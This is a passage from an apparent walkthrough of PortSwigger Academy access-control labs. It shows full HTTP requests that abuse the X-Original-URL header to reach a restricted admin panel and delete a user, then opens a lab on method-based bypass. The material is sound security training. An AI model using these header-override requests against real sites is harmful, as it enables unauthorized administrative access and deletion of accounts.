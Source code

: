 ```
GET / HTTP/1.1
Host: 0abe000d034bb62b804371fd0007002e.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Connection: keep-alive
Referer: https://0abe000d034bb62b804371fd0007002e.web-security-academy.net/
X-Original-URL: /admin
Cookie: session=xxKnbCsoqswEifE6I3Jbjvfa1iZjBPaP
```

After sending this request we see our response has been changed and it contains the admin panel functionalities in it. In the response, we see the link for deleting users like the following.

```html
<h1>Users</h1>
	<div>
		<span>wiener - </span>
			<a href="/admin/delete?username=wiener">Delete</a>
	</div>
	<div>
		<span>carlos - </span>
            <a href="/admin/delete?username=carlos">Delete</a>
	</div>
```

Change the value of the `X-Original-URL` header with `/admin/delete` and replace the `/` endpoint with `/?username=carlos`. The whole request payload is like the following.

```
GET /?username=carlos HTTP/1.1
Host: 0abe000d034bb62b804371fd0007002e.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0abe000d034bb62b804371fd0007002e.web-security-academy.net/
X-Original-URL: /admin/delete
Cookie: session=xxKnbCsoqswEifE6I3Jbjvfa1iZjBPaP
```

Above `X-Origianl-URL` sets the endpoint and `/?username=carlos` sets the parameter for that endpoint. Combining all that they send the request to `/admin/delete?username=carlos` that deletes the user `carlos`. 

Similarly, another attack path also arises by changing the request method.

### LAB #6: Method-based access control can be circumvented

Lab URL: https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented

**Objective**

Login as a normal user but prompts himself as an administrator by exploiting flawed access controls.
